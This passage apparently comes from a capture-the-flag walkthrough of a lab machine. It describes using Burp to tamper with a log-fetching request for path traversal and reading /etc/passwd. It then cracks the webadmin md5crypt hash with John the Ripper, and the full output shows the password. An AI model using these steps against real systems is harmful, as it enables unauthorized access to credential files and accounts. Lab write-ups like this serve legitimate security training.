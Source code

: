 - `Get the log` seems to be fetching logs from backend, so modified the request through burp and tried path traversal on it

![path_traversal](potato_images/path_traversal.PNG)

- AND IT WORKED
![etc_passwd](potato_images/etc_passwd.PNG)

- `webadmin` contains  a hash, so copied the contenets into a file `password_hash.txt` and loaded into john

```bash
kali@kali:~$ vim password_hash.txt
kali@kali:~$ john  password_hash.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates buffered for the current salt, minimum 24 needed for performance.
Warning: Only 6 candidates buffered for the current salt, minimum 24 needed for performance.
Warning: Only 23 candidates buffered for the current salt, minimum 24 needed for performance.
Warning: Only 19 candidates buffered for the current salt, minimum 24 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 15 candidates buffered for the current salt, minimum 24 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
dragon           (webadmin)
1g 0:00:00:00 DONE 2/3 (2021-05-28 07:02) 20.00g/s 18460p/s 18460c/s 18460C/s ranger..diamond
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~$ john  password_hash.txt --show
webadmin:dragon:1001:1001:webadmin,,,:/home/webadmin:/bin/bash                        
```